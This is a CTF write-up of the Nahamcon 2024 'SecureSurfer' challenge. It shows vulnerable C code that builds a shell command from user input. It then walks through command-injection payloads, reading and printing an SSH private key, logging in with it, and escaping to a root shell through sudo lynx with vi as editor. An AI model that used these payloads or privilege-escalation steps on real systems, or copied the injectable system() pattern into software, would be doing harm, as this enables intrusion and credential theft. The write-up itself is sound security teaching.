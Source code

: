 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | SecureSurfer Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: misc
challenge: SecureSurfer
tags: "misc, twh, rce, lpe, privesc"
date: 2024-05-28T00:00:00+00:00
last_modified_at: 2024-05-28T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Nahamcon 2024</h1>

## SecureSurfer
> Solved by : thewhiteh4t


- we are provided with SSH access and a C source code file
- it is a simple C program which contains some cases and a `surf` function
- surf function passes our input without much input validation to `lynx` a console based browser tool
- 5 options have predefined inputs but in 6th option we can provide our input

```c
    case 6:
                    {
                        char url[1024];
                        printf("Online URL: ");
                        fflush(stdout); 
                        fgets(url, sizeof(url), stdin);
                        url[strcspn(url, "\n")] = 0; // Remove newline character
    
                        if (strstr(url, "https://") == NULL) {
                            printf("\nWe are secure here at the SecureSurfer! You must use https:// !\n");
                        } else {
                            surf(url);
                        }
                    }


    void surf(const char *url) {
        char command[512];
        sprintf(command, "/usr/local/bin/lynx --accept_all_cookies -cache=0 -restrictions=all '%s'", url);
        system(command);
        system("stty sane");
    }
```

- only requirement is that our input should contain `https://`
- we can inject commands through our input by using `$()` and single quotes :

```
'$(id)'#https://
```

![](https://i.imgur.com/65qrdco.png)

- so we have command injection, kind of
- now let’s try to drop to a shell : 


![](https://i.imgur.com/VxLvFJH.png)

- we did get a shell but command output is blank, maybe due to how lynx works or some other reason but we can still explore and home dir of `securesurfer` contains a `.ssh` directory, so we can try to look for `id_rsa`


```
securesurfer@securesurfer:~$ cat .ssh/
authorized_keys  id_ecdsa         id_ecdsa.pub
```

- fortunately with lynx we can read files directly!

```
'$(~/.ssh/id_ecdsa)'#https://
```

```
-----BEGIN EC PRIVATE KEY-----
MHcCAQEEIIDx0ks2B22N69cy8Vyy2VrNPDdhYTQlKWdVFdanIvydoAoGCCqGSM49
AwEHoUQDQgAEJEgkMpKgbm52oJfCbDLXvX1b3ZWE6j+P5tOdrBH5n/aaRwwZqZtp
7C82/VWBuq6RkSRFspGSlqsgJNG4RHQIRA==
-----END EC PRIVATE KEY-----
```

- now we can directly login and skip the browser on login

```
chmod 600 id_ecdsa
ssh -p 31252 securesurfer@challenge.nahamcon.com -i id_ecdsa
```

![](https://i.imgur.com/NxkhvyI.png)



- after looking into lynx for sometime I came across a useful option : 

```
-editor=EDITOR    enable edit mode with specified editor
```

- on the target box `vi` was available so we can run lynx with sudo and vi as our editor and drop into edit mode and try to launch a bash shell
- we also need a local file for the editor

```
touch a
sudo lynx -editor=vi a
```

- after getting inside lynx we need to press `e` to launch edit mode where `vi` takes over
- and now we can simply use the following to get a shell : 

```
:!/bin/bash
```

![](https://i.imgur.com/gKgA9Cc.png)
